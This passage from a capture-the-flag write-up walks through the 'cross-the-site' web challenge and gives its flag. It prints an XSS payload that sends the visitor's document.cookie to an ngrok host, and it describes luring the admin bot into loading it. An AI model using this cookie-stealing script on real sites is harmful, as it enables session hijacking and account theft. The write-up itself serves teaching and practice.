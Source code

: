 We then need to send the exploit to the admin so that he sends us his cookies. Here is the HTML we need him to display on his browser:

```html
<script>
   var xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "GET", "http://eee1ee5e27b9.ngrok.io/?"+document.cookie, false ); 
    xmlHttp.send( null );
</script>
```

We simply put that into the cross-the-site website to test it out, and we got it! Well, not quite, but now we just need to make the admin visit the same link and we'll get the flag instead of a random `hi` cookie I put in.

![cross-the-site_3.png](images/r1/cross-the-site_3.png)

![cross-the-site_4.png](images/r1/cross-the-site_4.png)

Just copy the same URL, paste it into the admin-bot site, and now we actually got it.

![cross-the-site_5.png](images/r1/cross-the-site_5.png)

We have that the flag is `cararraCTF{d0nt_d1SP4y_uSeR_!npUt_cuz_XSS}`! Congratulations if you solved this one, this is definitely one of the hardest ones I made even though it is a pretty routine hard challenge in Web Exploit.

## zip-scripts
